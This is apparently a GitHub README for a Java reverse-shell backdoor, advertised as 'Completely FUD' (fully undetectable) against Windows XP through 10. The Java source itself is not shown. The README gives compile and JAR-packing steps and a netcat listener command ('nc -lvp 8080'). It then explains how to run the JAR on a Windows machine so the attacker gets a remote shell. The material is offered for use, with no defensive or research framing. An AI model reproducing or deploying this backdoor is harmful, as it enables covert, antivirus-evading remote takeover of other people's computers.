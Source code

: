 This is a Java based Completely FUD backdoor reverse shell, for Windows XP,Vista,7,8.x,10 , coded entirely in java.

This project was developed using openjdk version "11.0.3".

To compile the file , simply run javac connectback.java.
This will create the .class file.
Create a manifest file, as per the JDK version on your device.
Filename : connectback.mf
Format:
Manifest-Version: 11.0.3
Main-Class: connectback

Now This can be packed into a .JAR executable file using :jar cmf connectback.mf connectback.jar connectback.class connectback.java

Start a netcat listner using nc -lvp 8080 ( I've used port 8080 as my listening port)

Port the .JAR file to the windows machine and execute it either by using java -jar connectback.jar or simply double clicking on the file , and you should instantly get your reverse shell on the attacker machine.

Cheers

#Captain_Nemo

https://www.youtube.com/watch?v=BaPRKLP9B_4
